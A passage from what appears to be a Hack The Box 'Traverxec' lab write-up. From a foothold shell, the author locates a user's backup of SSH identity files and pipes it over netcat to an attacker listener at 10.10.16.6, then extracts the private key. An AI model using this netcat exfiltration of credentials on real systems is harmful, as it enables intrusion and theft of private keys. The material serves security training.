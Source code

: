 I cannot use the password at the time, so I enumerate more .I checked the config file and found these lines:

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

This is the configuration for the home dirs, with the username david I can try to access his home dir page on the webserver ([`http://traverxec.htb/~david/`](http://traverxec.htb/~david/)):

![Untitled](/assets/images/2022-05-15-traverxec/Untitled.png)

This does not help me out. I scanned the host for hidden directories, but found nothing. So I came up with the idea of searching the location of the page in the shell I got:

```bash
www-data@traverxec:/home$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area/
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

I found the location and I have access to it. Nevertheless I also found a backup of an SSH. I can transfer it using netcat:

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.16.6 5555
```

In my netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ nc -lvnp 5555 >  backup-identity-files.tgz
listening on [any] 5555 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 56908
^C
                                                
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ ls                                          
47837.py  backup-identity-files.tgz  hash.txt
```

Now, I can extract it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ tar -zxvf backup-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
